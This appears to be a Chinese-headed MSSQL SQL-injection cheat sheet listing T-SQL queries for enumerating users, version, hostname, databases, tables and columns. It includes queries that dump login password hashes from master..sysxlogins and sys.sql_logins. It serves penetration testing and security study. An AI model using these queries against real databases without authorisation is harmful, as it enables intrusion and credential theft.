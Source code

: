  ##### 注释符
  	-- 注释
	/* 注释 */
 ##### 用户
  	SELECT CURRENT_USER
	SELECT user_name();
	SELECT system_user;
	SELECT user;
 ##### 版本
  	SELECT @@version
 ##### 主机名
  	SELECT HOST_NAME()
	SELECT @@hostname;
 ##### 数据库名
  	SELECT DB_NAME()
 ##### 列数据库
  SELECT name FROM master..sysdatabases;
	SELECT DB_NAME(N); — for N = 0, 1, 2, …
	SELECT STRING_AGG(name, ', ') FROM master..sysdatabases; -- Change delimeter value such as ', ' to anything else you want => master, tempdb, model, msdb   (Only works in MSSQL 2017+)
 ##### 列表
  	SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
	SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
	SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

	SELECT table_catalog, table_name FROM information_schema.columns
	SELECT STRING_AGG(name, ', ') FROM master..sysobjects WHERE xtype = 'U'; -- Change delimeter value such as ', ' to anything else you want => trace_xe_action_map, trace_xe_event_map, spt_fallback_db, spt_fallback_dev, spt_fallback_usg, spt_monitor, MSreplication_options  (Only works in MSSQL 2017+)
 ##### 列字段
  	SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
	SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

	SELECT table_catalog, column_name FROM information_schema.columns
 ##### 导出用户和密码
	MSSQL 2000:
	SELECT name, password FROM master..sysxlogins
	SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)

	MSSQL 2005
	SELECT name, password_hash FROM master.sys.sql_logins
	SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
 ##### 联合查询
	列出数据库
	$ SELECT name FROM master..sysdatabases
	[*] Injection
	[*] msdb
	[*] tempdb
